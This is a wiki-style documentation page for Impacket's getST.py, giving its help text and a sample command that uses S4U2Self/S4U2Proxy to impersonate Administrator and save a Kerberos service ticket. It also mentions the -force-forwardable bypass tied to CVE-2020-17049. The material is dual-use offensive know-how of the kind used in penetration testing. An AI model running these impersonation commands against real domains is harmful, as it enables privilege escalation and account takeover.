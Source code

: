 ```yaml
---
title : "GetST.py"
# pre : ' '
description : "Given a password, hash or aesKey, it will request a Service Ticket and save it as ccache."
date : 2022-02-14T12:21:48+01:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## GetST.py

Given a password, hash or aesKey, it will request a Service Ticket and save it as ccache.

### Installation

Install the [Impacket Framework]({{< ref "../" >}})

### Usage

```plain
getST.py [-h] -spn SPN [-impersonate IMPERSONATE] [-additional-ticket ticket.ccache] [-ts] [-debug] [-force-forwardable] [-hashes LMHASH:NTHASH] [-no-pass] [-k] [-aesKey hex key]
                [-dc-ip ip address]
                identity
```

### Flags

```plain
Impacket v0.9.25.dev1+20220201.191645.d8679837 - Copyright 2021 SecureAuth Corporation

Given a password, hash or aesKey, it will request a Service Ticket and save it as ccache

positional arguments:
  identity              [domain/]username[:password]

options:
  -h, --help            show this help message and exit
  -spn SPN              SPN (service/server) of the target service the service ticket will be generated for
  -impersonate IMPERSONATE
                        target username that will be impersonated (thru S4U2Self) for quering the ST. Keep in mind this will only work if the identity provided in this scripts is allowed for delegation
                        to the SPN specified
  -additional-ticket ticket.ccache
                        include a forwardable service ticket in a S4U2Proxy request for RBCD + KCD Kerberos only
  -ts                   Adds timestamp to every logging output
  -debug                Turn DEBUG output ON
  -force-forwardable    Force the service ticket obtained through S4U2Self to be forwardable. For best results, the -hashes and -aesKey values for the specified -identity should be provided. This allows
                        impresonation of protected users and bypass of "Kerberos-only" constrained delegation restrictions. See CVE-2020-17049

authentication:
  -hashes LMHASH:NTHASH
                        NTLM hashes, format is LMHASH:NTHASH
  -no-pass              don't ask for password (useful for -k)
  -k                    Use Kerberos authentication. Grabs credentials from ccache file (KRB5CCNAME) based on target parameters. If valid credentials cannot be found, it will use the ones specified in
                        the command line
  -aesKey hex key       AES key to use for Kerberos Authentication (128 or 256 bits)
  -dc-ip ip address     IP Address of the domain controller. If ommited it use the domain part (FQDN) specified in the target parameter

Examples: 
        ./getST.py -spn cifs/contoso-dc -hashes lm:nt contoso.com/user

        it will use the lm:nt hashes for authentication. If you don't specify them, a password will be asked
```

### Examples

[Using tickets](https://swarm.ptsecurity.com/kerberoasting-without-spns/).

To use tickets install the `klist` tool with `sudo apt install krb5-user`

```plain
$ getST.py -impersonate Administrator -spn 'host/SRV01.offsec.NL' offsec.NL/janedo:'Welkom1234'
Impacket v0.9.22.dev1+20200611.111621.760cb1ea - Copyright 2020 SecureAuth Corporation

[*] Getting TGT for user
[*] Impersonating Administrator
[*]     Requesting S4U2self
[*]     Requesting S4U2Proxy
[*] Saving ticket in Administrator.ccache
```

### URL list

* [Github.com](https://github.com/SecureAuthCorp/impacket)
